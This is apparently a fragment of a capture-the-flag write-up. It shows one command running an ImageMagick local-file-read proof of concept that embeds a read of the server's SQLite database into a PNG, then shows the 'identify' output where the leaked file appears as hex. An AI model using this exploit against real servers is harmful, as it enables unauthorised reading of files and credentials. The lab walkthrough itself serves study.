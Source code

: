 ```bash
python3 generate.py -f "/var/db/pilgrimage" -o sqlite.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > sqlite.png
```

```bash
identify -verbose 654f57f469742.png 
Image: 654f57f469742.png
  Format: PNG (Portable Network Graphics)
  Geometry: 128x128
  Class: DirectClass
  Type: true color
  Depth: 8 bits-per-pixel component
  Channel Depths:
    Red:      8 bits
    Green:    8 bits
    Blue:     8 bits
  Channel Statistics:
    Red:
      Minimum:                   257.00 (0.0039)
      Maximum:                 65021.00 (0.9922)
      Mean:                    32639.00 (0.4980)
      Standard Deviation:      18978.98 (0.2896)
    Green:
      Minimum:                     0.00 (0.0000)
      Maximum:                 65278.00 (0.9961)
      Mean:                    11062.54 (0.1688)
      Standard Deviation:      15530.77 (0.2370)
    Blue:
      Minimum:                   257.00 (0.0039)
      Maximum:                 65021.00 (0.9922)
      Mean:                    32639.00 (0.4980)
      Standard Deviation:      18978.98 (0.2896)
  Gamma: 0.45455
  Chromaticity:
    red primary: (0.64,0.33)
    green primary: (0.3,0.6)
    blue primary: (0.15,0.06)
    white point: (0.3127,0.329)
  Filesize: 1.7Ki
  Interlace: No
  Orientation: Unknown
  Background Color: white
  Border Color: #DFDFDF
  Matte Color: #BDBDBD
  Page geometry: 128x128+0+0
  Compose: Over
  Dispose: Undefined
  Iterations: 0
  Compression: Zip
  Png:IHDR.color-type-orig: 2
  Png:IHDR.bit-depth-orig: 8
  Raw profile type:
  
53514c69746520666f726d61742033001000010100402020000000480000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
<REDACTED>
  Date:create: 2023-11-11T10:31:16+00:00
  Date:modify: 2023-11-11T10:31:16+00:00
  Date:timestamp: 2023-11-11T10:31:16+00:00
```